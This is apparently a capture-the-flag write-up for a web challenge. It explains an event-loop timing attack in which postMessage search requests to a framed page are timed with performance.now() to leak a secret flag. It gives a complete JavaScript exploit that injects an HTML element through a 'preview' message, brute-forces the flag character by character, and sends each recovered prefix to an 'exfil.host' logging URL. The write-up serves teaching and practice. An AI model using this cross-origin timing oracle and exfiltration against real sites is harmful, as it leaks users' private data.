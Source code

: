 ### Intended Solution

The intended solution was to use the [PerformanceLongTaskTiming API](https://developer.mozilla.org/en-US/docs/Web/API/PerformanceLongTaskTiming) to identify if the search was taking more than 50ms.

It turns out, however, any timing attack with `performance.now()` would have worked as well.

Because the JavaScript event loop is single-threaded, we just need to use `setTimeout` to temporarily pass control to the next thing in the callback queue (which is the message handler taking care of the `search` request), then find out how long it took for control to be passed _back_ to our exploit script.

Although the `setTimeout` is only for 1ms, it takes much longer in reality for execution to resume because the expensive `search` function blocks the event loop. By measuring this discrepancy, we can find out if our guess was correct.

```javascript
const sleep = (ms) => new Promise((res) => setTimeout(res, ms));

async function check(flag) {
    let w = frame.contentWindow;
    w.postMessage({'op': 'preview', 'payload': '<img name="enable_experimental_features">'}, '*');
    await sleep(1);
    w.postMessage({'op': 'search', 'payload': flag}, '*');
    let t1 = performance.now();
    await sleep(1);
    return (performance.now() - t1) > 200;
}

async function main() {
    let alpha = 'abcdefghijklmnopqrstuvwxyz0123456789_ABCDEFGHIJKLMNOPQRSTUVWXYZ-}';
    window.frame = document.createElement('iframe');
    frame.width = '100%';
    frame.height = '700px';
    frame.src = 'https://challenge.jsapi.tech/';
    document.body.appendChild(frame);
    await sleep(1000);

    let flag = 'nite{';
    while(1) {
        for(let c of alpha) {
            let result = await Promise.race([
                check(flag + c),
                new Promise((res) => setTimeout(() => { res(true); }, 300))
            ]);
            console.log(flag + c, result);
            if(result) {
                flag += c;
                break;
            }
        }
        new Image().src = '//exfil.host/log?' + encodeURIComponent(flag);
    }
}

document.addEventListener('DOMContentLoaded', main);
```
